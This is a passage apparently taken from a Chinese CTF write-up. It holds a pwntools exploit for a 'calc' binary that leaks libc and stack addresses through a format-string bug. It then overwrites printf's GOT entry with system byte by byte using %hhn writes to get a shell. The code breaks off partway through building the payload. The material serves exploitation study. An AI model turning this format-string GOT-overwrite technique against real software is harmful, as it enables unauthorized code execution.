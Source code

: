 ```plain
......
gdb-peda$ 
```
将printf@got覆盖为system地址后，只需输入合适的错误表达式来触发漏洞就可以get shell，比如表达式(1sh;)，最后附上完整exp:
```python
from pwn import *

stdin_so = 0x00000000003C48E0
printf_got = 0x000000602038
system_so = 0x0000000000045390
target = 0x000000602038
ebp4 = 0
def pwn(ip):
    #p = remote(ip,1082)
    global ebp4
    p = process("./calc") 
    p.recvuntil(">")
    p.sendline("(1%6$p)")
    p.recvuntil(">")
    p.sendline("((1%6$p)")
    p.recvuntil("Expecting )\n")
    stdin = int(p.recv(14),16)
    libc_base = stdin - stdin_so
    system = libc_base + system_so
    p.recvuntil(">")
    p.sendline("(1%8$p)")
    p.recvuntil("Expecting )\n")
    stack = int(p.recv(14),16)
    ebp4 = stack + 0x70 #%24$p
    
    step1(p)
    step2(p)
    step3(p)
    step4(p)
    step5(p)
    step6(p)
    
    byte1 = system & 0xff
    byte2 = (system>>8) & 0xff
    byte3 = (system>>16) & 0xff
    byte4 = (system>>24) & 0xff
    byte5 = (system>>32) & 0xff
    byte6 = (system>>40) & 0xff

    payload = "(1%" + str(byte1) + "c%26$hhn"
    if byte2 > byte1:
        payload += "%" + str(byte2 - byte1) + "c%27$hhn"
    else:
        payload += "%" + str(0x100 + byte2 - byte1) + "c%27$hhn"

    if byte3 > byte2:
        payload += "%" + str(byte3 - byte2) + "c%28$hhn"
    else:
        payload += "%" + str(0x100 + byte3 - byte2) + "c%28$hhn"

    if byte4 > byte3:
        payload += "%" + str(byte4 - byte3) + "c%29$hhn"
    else:
        payload += "%" + str(0x100 + byte4 - byte3) + "c%29$hhn"

    if byte5 > byte4:
        payload += "%" + str(byte5 - byte4) + "c%30$hhn"
    else:
```